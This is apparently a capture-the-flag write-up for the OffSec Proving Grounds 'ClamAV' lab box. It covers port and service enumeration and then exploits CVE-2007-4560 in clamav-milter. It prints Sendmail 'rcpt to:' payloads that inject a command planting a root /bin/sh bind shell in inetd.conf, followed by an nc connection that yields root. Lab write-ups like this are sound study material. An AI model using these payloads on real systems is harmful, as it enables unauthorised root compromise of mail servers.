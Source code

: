 # 🧪 Machine Name: ClamAV

**Platform:** OffSec Proving Grounds  
**IP Address:** `192.168.228.42`  
**Difficulty:** Easy  

---

## 🕵️ Overview

ClamAV is an OffSec PG box that exposes several interesting services including an outdated mail setup with `clamav-milter`. After ruling out HTTP, SMB, and SNMP as dead-ends, we identify and exploit a remote root vulnerability in `clamav-milter` triggered through Sendmail. We confirm root with `proof.txt`, `hostname`, and `whoami`.

---

## 🔍 Enumeration

### 🔎 Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 192.168.228.42

PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### 🔍 Nmap Targeted Enumeration
```
nmap -p 22,25,80,139,199,445,60000 -sC -sV -oN nmapscan 192.168.228.42

22/tcp  - OpenSSH 3.8.1p1
25/tcp  - Sendmail 8.13.4
80/tcp  - Apache 1.3.33 (Debian GNU/Linux)
445/tcp - Samba smbd 3.0.14a-Debian
199/tcp - Linux SNMP multiplexer
```

---

## 🔒 Service Enumeration

### 🚩 SMB (Guest access, no usable shares)
```
netexec smb 192.168.228.42 -u guest -p '' --shares
```
- No writable or interesting shares.

### 📄 HTTP
- Binary on main page decodes to: `ifyoudontpwnmeuran00b`
- Apache 1.3.33 found
- Dirbusting reveals only `/index.html` and standard 403s
- No RCE or LFI discovered

### 🔢 SNMP (UDP 161)
```bash
nmap -sU -p161 --script "*snmp*" 192.168.228.42
```
- SNMP is **misconfigured with community string `public`**
- Reveals clamav-milter and Sendmail processes

---

## ⚡ Exploitation

### 📄 CVE-2007-4560 – ClamAV Milter Remote Command Execution
- Found clamav-milter in SNMP output
- Vulnerability: Improper handling of Sendmail `rcpt to:` parsing can be used to append commands to `/etc/inetd.conf`
- Exploit reference: [CVE-2007-4560 – clamav-milter RCE via Sendmail](https://www.exploit-db.com/exploits/4761)

```bash
perl CVE-2007-4560.pl 192.168.228.42
```
Payload:
```bash
rcpt to: <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"@localhost>
rcpt to: <nobody+"|/etc/init.d/inetd restart"@localhost>
```

### 🔧 Root Access via Backdoor
```bash
nc -nv 192.168.228.42 31337
whoami    # root
hostname  # 0xbabe.local
cat proof.txt
a3c43c727ec533f1387ef24134c8cea1
```

---

## 💡 Lessons Learned
- `clamav-milter` RCE is rarely seen but extremely effective if exposed.
- SNMP misconfig (public string) provided process insights that led to the correct exploit.
- Services like `inetd` are uncommon but still exploitable on legacy systems.

---

## 📷 Proof
![ClamAV Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/pg_clamav.png)

"Writeup and proof included in GitHub repo: https://github.com/inkedqt/ctf-writeups/tree/main/Other/PG/ClamAV"